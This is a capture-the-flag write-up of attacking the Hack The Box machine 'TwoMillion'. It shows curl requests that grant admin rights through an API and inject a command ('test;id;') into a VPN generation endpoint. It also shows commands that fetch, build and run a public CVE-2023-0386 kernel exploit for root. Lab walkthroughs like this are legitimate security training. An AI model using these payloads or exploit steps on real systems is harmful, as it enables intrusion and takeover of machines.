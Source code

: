 ```yaml
---
title: Hacking "TwoMillion" on HTB
date: 2024-09-01 14:00:00 +05:30
modified: 2024-09-01 14:00:00 +05:30
tags: [hackthebox, hacking, cybersecurity]
description: This post contains the attack steps to hack into TwoMillion on Hack the Box
image: "/hacking-twomillion/twomillionhtb.jpg"
---
```


# Attacking "TwoMillion" on HackTheBox

<hr>

**TwoMillion** is a Linux system that was released to celebrate reaching 2 million users on HackTheBox. The machine features an old version of the HTB platform that includes a hackable invite code. By leveraging this, an account can be created on the platform, leading to API enumeration, privilege escalation, and ultimately gaining root access.

<hr>

## STEP 1: Reconnaissance

<hr>

Let's start by doing an <abbr title="Network Mapper">NMAP</abbr> scan to discover the available ports on the target machine.

```bash
nmap -sC -sV -v -oA twomillion_nmap {TARGET IP}
```

The scan reveals ports 22 (SSH) and 80 (Nginx) are open, with port 80 redirecting to `2million.htb`. Let's add this vHost to our `/etc/hosts` file.

```bash
echo '10.10.10.11 2million.htb' | sudo tee -a /etc/hosts
```

Upon accessing `2million.htb`, we see an old version of the HackTheBox website. The site allows users to join the platform through an invite code, which we can exploit.

<hr>

## STEP 2: Exploitation

<hr>

The first thing we need to do is inspect the invite code page. Viewing the page source reveals some interesting JavaScript that handles the invite code verification. Using deobfuscation techniques on the obfuscated JavaScript, we can generate and verify invite codes, allowing us to create an account on the platform.

Once logged in, we enumerate the available API endpoints and discover administrative functions, such as `/api/v1/admin/settings/update` and `/api/v1/admin/vpn/generate`. By manipulating these endpoints, we can elevate our privileges and eventually gain command execution through a command injection vulnerability in the VPN generation feature.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"email":"test@2million.htb", "is_admin": 1}'
```

This gives us administrative access, and we can now proceed to inject a reverse shell payload to gain a foothold on the system.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;id;"}'
```

<hr>

## STEP 3: Lateral Movement

<hr>

With a shell on the system, we enumerate further and find a `.env` file containing database credentials. Using these credentials, we log in as the `admin` user via SSH.

```bash
ssh admin@2million.htb
```

The user flag can be found in `/home/admin`.

<hr>

## STEP 4: Privilege Escalation

<hr>

Enumeration of the system reveals an outdated kernel version (5.15.70), which is vulnerable to CVE-2023-0386. We exploit this vulnerability to escalate our privileges to root.

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386
zip -r cve.zip CVE-2023-0386
scp cve.zip admin@2million.htb:/tmp
cd /tmp/CVE-2023-0386/
make all
./exp
```

Finally, we gain root access, and the root flag can be found in `/root/`.

<hr>

## STEP 5: Conclusion

With this attack, we have successfully pwned the "TwoMillion" machine on HackTheBox. The key takeaways include learning about JavaScript deobfuscation, API enumeration, command injection, and exploiting CVE-2023-0386 for privilege escalation.

Stay tuned for more posts about attacking different HackTheBox machines!

<hr>


